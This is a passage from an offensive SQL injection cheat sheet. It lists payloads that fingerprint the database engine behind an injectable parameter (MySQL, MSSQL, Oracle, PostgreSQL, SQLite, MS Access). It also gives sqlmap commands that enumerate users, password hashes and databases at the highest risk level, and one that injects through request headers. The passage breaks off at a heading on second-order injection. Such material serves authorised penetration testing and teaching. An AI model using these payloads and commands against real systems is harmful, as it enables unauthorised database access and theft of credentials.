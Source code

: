 ```c
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## SQL injection using SQLmap

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection
